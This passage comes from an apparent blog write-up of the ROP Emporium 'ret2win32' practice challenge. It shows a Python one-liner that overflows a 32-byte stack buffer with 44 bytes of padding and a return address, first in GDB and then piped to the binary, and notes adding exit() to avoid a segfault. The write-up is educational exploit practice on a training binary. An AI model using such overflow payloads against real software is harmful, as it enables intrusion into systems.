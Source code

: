 ```
run < <(python -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\x2c\x86\x04\x08")')
```

![[https://blog.spookysec.net/img/Pasted image 20240629101918.png]](https://blog.spookysec.net/img/Pasted image 20240629101918.png)

We can see that our command executed successfully! Great!  Let's make sure we can run this outside of the debugger.

```
python -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\x2c\x86\x04\x08")' | ./ret2win32
```

![[https://blog.spookysec.net/img/Pasted image 20240629185114.png]](https://blog.spookysec.net/img/Pasted image 20240629185114.png)

Success! We still get a segfault, though which sucks. Let's add a quick call to the exit() function just to make sure everything is nice and clean:

![[https://blog.spookysec.net/img/Pasted image 20240629185244.png]](https://blog.spookysec.net/img/Pasted image 20240629185244.png)
*GDB Output of print exit, then adding the memory address of exit to our python one-liner.*

Much better! To be honest, I had much more grand plans for this post, like making it an SUID binary and spawning a shell, but those kind of fell through with the specific language of "I will attempt to fit 56 bytes of user input into a 32-bytes of stack buffer", which we can see if we actually read the function. This is why Reverse Engineering is important, same w/ Shellcode size - it's very easy to exceed the buffer size limitations and that matters. It can completely break your plans.

![[https://blog.spookysec.net/img/Pasted image 20240629185543.png]](https://blog.spookysec.net/img/Pasted image 20240629185543.png)

Anyways, I even learned something out of this one. In the next post we'll move onto Split
